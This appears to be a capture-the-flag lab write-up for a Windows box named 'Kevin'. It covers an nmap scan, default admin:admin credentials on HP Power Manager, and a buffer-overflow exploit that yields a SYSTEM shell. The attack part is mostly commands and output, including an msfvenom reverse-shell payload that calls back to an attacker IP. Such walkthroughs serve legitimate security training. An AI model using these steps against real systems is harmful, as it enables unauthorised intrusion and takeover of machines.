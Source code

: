 # Kevin

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.160.45
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-13 14:02 +08
Nmap scan report for 192.168.160.45
Host is up (0.17s latency).
Not shown: 65523 closed tcp ports (conn-refused)
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
3573/tcp  open  tag-ups-1
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49158/tcp open  unknown
49159/tcp open  unknown
```

### HP Power Manager -> RCE

Port 80 is running HP Power Manager and it looks vulnerable:

<figure><img src="../../../.gitbook/assets/image (3888).png" alt=""><figcaption></figcaption></figure>

`admin:admin` works in logging in:

<figure><img src="../../../.gitbook/assets/image (3887).png" alt=""><figcaption></figcaption></figure>

There are a couple of exploits available for this software:

```
$ searchsploit HP Power Manager
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Flying Dog Software Powerslave 4.3 Portalmanager - 'sql_id | php/webapps/23163.txt
Hewlett-Packard (HP) Power Manager Administration - Remote | windows/remote/16785.rb
Hewlett-Packard (HP) Power Manager Administration Power Ma | windows/remote/10099.py
HP Power Manager - 'formExportDataLogs' Remote Buffer Over | cgi/remote/18015.rb
----------------------------------------------------------- ---------------------------------
```

All of them are forms of Buffer Overflow, and I used `10099.py` to exploit it. FIrst, generate the shellcode needed with the bad characters and encoding given in the exploit:

{% code overflow="wrap" %}
```
$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.191 LPORT=4444 -b "\x00\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5c\x3d\x3b\x2d\x2c\x2e\x24\x25\x1a" -e x86/alpha_mixed -f c
```
{% endcode %}

Then, replace the shellcode within the Python script and start a listener port.&#x20;

```
$ python2 10099.py 192.168.160.45
HP Power Manager Administration Universal Buffer Overflow Exploit
ryujin __A-T__ offensive-security.com
[+] Sending evil buffer...
HTTP/1.0 200 OK

[+] Done!
[*] Check your shell at 192.168.160.45:4444 , can take up to 1 min to spawn your shell
```

After running it, we would get a shell as the SYSTEM user:

![](<../../../.gitbook/assets/image (1104).png>)
